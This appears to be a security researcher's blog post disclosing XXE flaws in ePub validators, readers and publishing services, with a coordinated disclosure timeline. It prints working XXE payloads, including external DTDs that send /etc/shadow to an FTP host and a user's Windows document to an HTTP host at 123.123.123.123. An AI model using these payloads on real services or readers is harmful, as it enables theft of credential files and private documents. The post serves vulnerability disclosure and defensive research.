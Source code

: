 ```yaml
---
layout: post
title:  "This book reads you - exploiting services and readers that support the ePub book format"
date:   2017-01-25 12:00:00
categories: epub
---
```


> "We use the ePub format - it is the most popular open book format in the world. We’re very excited about this." - Steve Jobs, 2010 (original iPad launch)

TLDR; Applying a familiar XXE pattern to exploit services & readers that consume the ePUB format. Exploiting vulnerabilities in **EpubCheck <= 4.0.1** (ePub Validation Java Library & tool), **Adobe Digital Editions <= 4.5.2** (book reader), **Amazon KDP** (Kindle Publishing Online Service), **Apple Transporter**, and **Google Play Book uploads**, etc.

ePub is a standard format for open books maintained by [IDPF](http://www.idpf.org/) (International Digital Publishing Forum). IDPF is a trade and standards association for the digital publishing industry, set up to establish a standard for ebook publishing. Their membership list: [http://idpf.org/membership/members](http://idpf.org/membership/members)

An epub is based on XML, CSS, XHTML, etc web content zipped together into a single package, which ends in the extension .epub. Depending on the reader device/application support, [ePub](http://www.idpf.org/epub/30/spec/epub30-changes.html#sec-new-changed) can also support interactivity using Flash and Javascript.

ePub uses XML metadata to define the document structure, support digital signatures, digital rights (DRM) etc.

eg., epub archive:
{% highlight javascript %}
Archive:  book.epub
  Length      Date    Time    Name
---------  ---------- -----   ----
       20  04-09-2014 15:41   mimetype
     2189  04-09-2014 15:41   toc.ncx
    39962  04-09-2014 15:41   OEBPS/chapter-001-chapter-i.html
    41745  04-09-2014 15:41   OEBPS/chapter-002-chapter-ii.html
      684  04-09-2014 15:41   OEBPS/title-page.html
      557  04-09-2014 15:41   OEBPS/front-cover.html
    42220  04-09-2014 15:41   OEBPS/chapter-003-chapter-iii.html
     1185  04-09-2014 15:41   OEBPS/copyright.html
      884  04-09-2014 15:41   OEBPS/table-of-contents.html
   234790  04-09-2014 15:41   OEBPS/assets/pressbooks-promo.png
    33684  04-09-2014 15:41   OEBPS/assets/MedulaOne-Regular.ttf
   244146  04-09-2014 15:41   OEBPS/assets/themetamorphosis_1200x1600.jpg
      661  04-09-2014 15:41   OEBPS/pressbooks-promo.html
    27328  04-09-2014 15:41   OEBPS/jackson.css
     3494  04-09-2014 15:41   book.opf
      240  04-09-2014 15:41   META-INF/container.xml
      157  04-09-2014 15:41   META-INF/com.apple.ibooks.display-options.xml
---------                     -------
   673946                     17 files
{% endhighlight %}

eg., contents of META-INF/container.xml
{% highlight xml %}
<?xml version="1.0"?>
<container version="1.0" xmlns="urn:oasis:names:tc:opendocument:xmlns:container">
 <rootfiles>
 <rootfile full-path="OEBPS/book.opf"
 media-type="application/oebps-package+xml" />
 </rootfiles>
</container>
{% endhighlight %}

eg., contents of book.opf
{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" ?>
    <package version="2.0" xmlns="http://www.idpf.org/2007/opf" unique-identifier="PrimaryID">
    <metadata xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:opf="http://www.idpf.org/2007/opf">
    <dc:title>My Book </dc:title>
    <dc:language>en</dc:language>
    <dc:identifier id="PrimaryID" opf:scheme="URI">http://mybook.com</dc:identifier>
    <dc:description>Description</dc:description>
    <dc:creator opf:role="aut">Author</dc:creator>
    <dc:publisher>Publisher.com</dc:publisher>
    <meta name="cover" content="cover-image" />
</metadata>
{% endhighlight %}

When I first started looking into this, I learned about a tool/Java library called [EpubCheck](https://github.com/IDPF/epubcheck/releases) (provided by IDPF) that is used to validate books in the ePub format. Book publishers tend to perform a validation step using something like this to check the format validity. The validator tool/library was vulnerable to XXE, so any application that relies on a vulnerable version to check the validity of a book would be susceptible to this type of attack. 

#### Modifying an existing ePub file to test for XML parsing vulnerabilities:

* __curl https://s3-us-west-2.amazonaws.com/pressbooks-samplefiles/MetamorphosisJacksonTheme/Metamorphosis-jackson.epub -o book.epub__

* __unzip book.epub; rm book.epub__

* __Edit any of the files that contain XML metadata.__ 

eg., book.opf  (XXE - XML External Entities pattern)
{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE a [<!ENTITY % b SYSTEM "http://123.123.123.123/dtd">%b;%c;]><package version="2.0" xmlns="http://www.idpf.org/2007/opf" unique-identifier="PrimaryID">
<metadata xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:opf="http://www.idpf.org/2007/opf">
<dc:title>Metamorphosis</dc:title>
<dc:language>en</dc:language>
<dc:identifier id="PrimaryID" opf:scheme="URI">http://metamorphosiskafka.pressbooks.com</dc:identifier>
<dc:description>&send;</dc:description>
{% endhighlight %}

* __zip -r book.epub *__

* __Point at a HTTP server to serve the following contents, and specifying a FTP server to recieve the specified file__

{% highlight xml %}
<!ENTITY % d SYSTEM "file:///etc/shadow">
<!ENTITY % c "<!ENTITY send SYSTEM 'ftp://123.123.123.123/%d;'>">
{% endhighlight %}

**EpubCheck <= 4.0.1** 

There was a online instance of EpubCheck, that would accept user uploads and perform validation on the format. This provides an example of how this vulnerability could be used to attack online services that support ePub in some way, if they are using a vulnerable version of EpubCheck to validate the uploaded file. 

Uploading our created file:
![Image](/assets/epub/upload.png)

HTTP listener receiving the dtd request when parsed by the remote XML parser, and custom FTP listener receiving the file (I didn't think it would work, but specified /etc/shadow as the file to retrieve).  
![Image](/assets/epub/EPubCheck.png)

This means that we accidentally retrieved the /etc/shadow file. Public facing web apps running as root/system in prod... 😫

A few examples of other services, and applications I came across that were vulnerable:

**Amazon KDP** which allows publishers to upload books, was susceptible to XXE when converting books to the Kindle format. 
![Image](/assets/epub/AMZ1.png)
![Image](/assets/epub/AMZ2.png)

**[Adobe Digital Editions](http://www.adobe.com/solutions/ebook/digital-editions.html) <= 4.5.2** (book reader) when a user opens a book, this would allow files to be taken from their system. [CVE-2016-7889](https://helpx.adobe.com/security/products/Digital-Editions/apsb16-45.html).

External DTD specifying the file to retrive:

{% highlight xml %}
<!ENTITY % d SYSTEM "file:///c:/Users/Documents/secret.txt">
<!ENTITY % c "<!ENTITY send SYSTEM 'http://123.123.123.123/exfil/%d;'>">
{% endhighlight %}

eg., Retrieving secret stuff from a users Windows documents folder:
![Image](/assets/epub/ADE.png)

**Apple Transporter** (underlying tool used to validate metadata and assets and deliver them to the iTunes Store), [CVE-2016-7666](https://support.apple.com/en-us/HT207432).
![Image](/assets/epub/Transporter.png)

**[Google Play Book uploads](https://play.google.com/books/uploads)** did not allow external entity processing, but was vulnerable to XML exponential entity expansion [billion laughs](https://cwe.mitre.org/data/definitions/776.html). When uploading a ePub with this pattern, it would spend about 45 minutes trying to process the file before returning an error condition. Google confirmed this on their side.

There are more things going on with the ePub format beyond the familiar patterns shown here. Some applications will allow Flash to be run, and Javascript execution in the context of the book reader, so you can imagine this can be used to perform some attacks; currently waiting on vendor fixes before talking about this. 

Disclosure timeline stuff:

* Sep 2016: Reported XXE in EpubCheck <= 4.0.1.
* Sep 2016: Reported XXE in Adobe Digital Editions <= 4.5.2.
* Sep 2016: Reported XXE in Amazon KDP.
* Oct 2016: Reported XXE in Apple Transporter
* Oct 2016: Reported XML exponential entity expansion in play.google.com book uploads.
* Dec 2016: Coordinated disclosure.
* Jan 2017: This blog post (lots of time for users to patch).

Thanks to [CERT/CC](http://www.cert.org/) for their help in coordinating with different vendors & IDPF, and setting a disclosure timeline. I only tested a handful of digital readers and services, so if you find other vulnerable readers/services, tell CERT/CC (they were tracking the ePubCheck issue as VU#779243).

If you got this far, thanks for reading. 👋 

[@craig](https://twitter.com/signalchaos)

